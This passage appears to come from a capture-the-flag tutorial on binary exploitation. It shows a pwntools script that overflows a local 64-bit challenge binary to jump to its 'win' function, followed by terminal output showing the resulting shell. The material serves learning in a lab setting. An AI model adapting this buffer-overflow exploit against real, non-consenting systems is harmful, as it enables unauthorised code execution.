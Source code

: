 So now, for the 64 bit binary, our exploit looks like this:
```py
from pwn import *

context.binary = "./chall4_x86_64"
e = context.binary
p = process(e.path)
libc = e.libc

payload = b"A"*72
payload += p64(e.symbols["win"])

p.sendline(payload)
p.interactive()
```
And running that
```sh
 euan@arch  chall4  python exploit-x86_64.py 
[*] '/chall4/chall4_x86_64'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
[+] Starting local process '/chall4/chall4_x86_64': pid 15339
[*] Switching to interactive mode
What are you going to say?
Thank you, have a nice day!
$ ls
chall4_i386  chall4_x86_64  exploit_i386.py  exploit-x86_64.py    vuln.c
$ id
uid=1000(euan) gid=1000(euan) groups=1000(euan),0(root),108(vboxusers),969(tablet)
$ uname -0a
uname: invalid option -- '0'
Try 'uname --help' for more information.
$ uname -a
Linux arch 5.10.4-arch2-1 #1 SMP PREEMPT Fri, 01 Jan 2021 05:29:53 +0000 x86_64 GNU/Linux
```
Bingo, we're successfully exploited the 64 bit program!!
